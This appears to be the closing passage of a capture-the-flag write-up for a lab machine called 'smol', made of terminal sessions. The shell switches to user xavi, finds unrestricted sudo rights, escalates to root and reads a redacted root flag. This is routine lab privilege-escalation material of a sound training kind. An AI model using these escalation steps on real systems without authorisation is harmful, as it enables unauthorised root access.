```
su xavi
```

```
xavi@smol:~$ ls -al
total 20
drwxr-x--- 2 xavi internal 4096 Aug 18  2023 .
drwxr-xr-x 6 root root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 xavi xavi      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 xavi xavi     3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 xavi xavi      807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root        9 Aug 18  2023 .viminfo -> /dev/null

```

```
sudo -l
```

```
xavi@smol:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL

```

```
sudo -i
```
```
xavi@smol:~$ sudo -i
root@smol:~$ ls
total 64K
drwx------  7 root root 4.0K May  2  2024 .
drwxr-xr-x 18 root root 4.0K Mar 29  2024 ..
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jun  2  2023 .ssh
-rw-rw-rw-  1 root root  14K May  2  2024 .viminfo

```

```
cat root.txt
```

```
bf89xxxxxxxxxxxxxxxxxxxx
```
